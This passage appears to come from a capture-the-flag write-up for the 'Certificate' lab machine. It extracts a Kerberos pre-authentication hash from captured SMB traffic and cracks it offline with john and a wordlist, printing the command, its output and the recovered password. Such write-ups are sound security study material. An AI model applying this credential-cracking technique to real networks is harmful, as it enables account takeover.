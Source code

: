 Using the `BPF` of `smb2.cmd == 0x01` we can find a lot of requests.
![Session setup](/assets/img/img_Certificate/Certificate-1748749435203.png)

If we keep looking there's a lot of Logon Failures followed by a success.
![Successful Session Setup Response](/assets/img/img_Certificate/Certificate-1748749494361.png)

Looking further it looks like the authentication method is `Kerberos` so let's look for that.
![Kerberos auth](/assets/img/img_Certificate/Certificate-1748750259803.png)

We can see multiple `kerberos` requests
![Kerberos requests](/assets/img/img_Certificate/Certificate-1748750286743.png)

We can use a method shown in another box as demonstrated by [0xdf](https://0xdf.gitlab.io/2024/06/22/htb-office.html#latest-system-dump-8fbc124dpcap) and [OpCode](https://gitlab.com/0pcode/htb-scribbles/-/blob/main/Boxes/Office/README.md#password-from-kerberos-pre-authentication-packets) to extract a hash from a `kerberos packet capture`

We should get the following hash:
```
lion.sk:$krb5pa$18$Lion.SK$CERTIFICATE.HTB$CERTIFICATE.HTBLion.SK$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

Cracking it using `john` we get a password!
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt lion.sk.pem
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (krb5pa-sha1, Kerberos 5 AS-REQ Pre-Auth etype 17/18 [PBKDF2-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (lion.sk)     
1g 0:00:00:01 DONE (2025-06-01 00:26) 0.5291g/s 7585p/s 7585c/s 7585C/s goodman..cherry13
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
